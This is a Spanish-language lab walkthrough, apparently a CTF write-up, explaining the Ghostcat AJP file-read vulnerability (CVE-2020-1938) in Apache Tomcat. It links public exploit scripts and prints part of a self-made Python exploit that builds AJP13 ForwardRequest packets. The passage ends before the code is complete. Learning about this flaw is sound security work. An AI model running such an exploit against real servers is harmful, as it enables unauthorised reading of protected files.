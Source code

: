 >Ahora bien, Cuando Tomcat se ejecuta con Apache, se necesita un procesamiento de datos desde Apache hasta el mismo Tomcat, para ello existe el puerto 8009. 
>Se podría, generalizando mucho, decir que es un centro de procesamiento de datos, en donde se integran las peticiones de Apache con el servicio que presta Tomcat (Apache recibe una petición por el puerto 8080--> La petición es enviada al puerto 8009 Tomcat --> La petición es procesada y devuelta a Apache para ser mostrada al cliente).
>Para todo este proceso, se utiliza el protocolo AJP que vimos en la respuesta de nmap. Consiste en una interacción en código binario y con parámetros específicos entre Apache y Tomcat, especialmente creada para eso. Pero, aunque esta interacción se da casi siempre cuando hay un "Apache Tomcat", Esto no debería ser visible, es decir, el hecho de que el puerto 8009 este abierto ya es un fallo de seguridad.

>Buscando un poco en la web, nos encontramos con información sobre la vulnerabilidad:

![\1](/Attachments/Pasted%20image%2020250524014118.png)

>Resulta que si el puerto 8009 esta expuesto, podemos falsificar peticiones AJP en binario con código malicioso, enviarlas al puerto 8009, y este mismo responderá con el archivo que le pidamos del servicio Tomcat. Esta vulnerabilidad se llama Ghostcat y es muy conocida.
>En esta explotación se abusa de las variables "javax.servlet.include*" propias de AJP para obtener contenido de archivos que por lo general, no tenemos permitido ver desde la web. Si deseas entender la vulnerabilidad a fondo te recomiendo [esta](https://www.blackduck.com/blog/ghostcat-vulnerability-cve-2020-1938.html) lectura.

>Para explotarlo, hay un montón de scripts, como [este](https://www.exploit-db.com/exploits/48143), [este](https://github.com/YounesTasra-R4z3rSw0rd/CVE-2020-1938/blob/main/GhostCat_Exploit.py), o [este](https://github.com/dacade/CVE-2020-1938). 
>_Ya que varios de los scripts daban errores y para méritos de entender del todo la vulnerabilidad, cree con ayuda de la AI uno un poco mas sencillo que los demás, que te intentare explicar un poco por encima y sin conceptos de Python para que entiendas la explotación_

>Todo el código de nuestro exploit seria este:

```python
import socket
import struct
#Primero, creamos una funcion (pack_string) que nos permita convertir a binario cualquier argumento que le demos, para que pueda ser interpretado correctamente por AJP:
def pack_string(s):
    if s is None:
        return struct.pack("!h", -1)
    s = s.encode('utf-8')
    return struct.pack("!H%dsb" % len(s), len(s), s, 0)
#Lo segundo que haremos, sera crear la funcion que construya el paquete infectado, y lo envie:
def send_forward_request(host, port, path):
    print(f"[+] Conectando a {host}:{port}")
    sock = socket.create_connection((host, port))

    # Construimos el cuerpo del mensaje AJP13 con los datos basicos que Tomcat espera:
    body = b""

    body += b"\x02"                          # Tipo de peticion ForwardRequest
    body += b"\x02"                          # METODO = GET
    body += pack_string("HTTP/1.1")          # protocolo
    body += pack_string("/")                 # URI real
    body += pack_string("127.0.0.1")         # IP del cliente
```
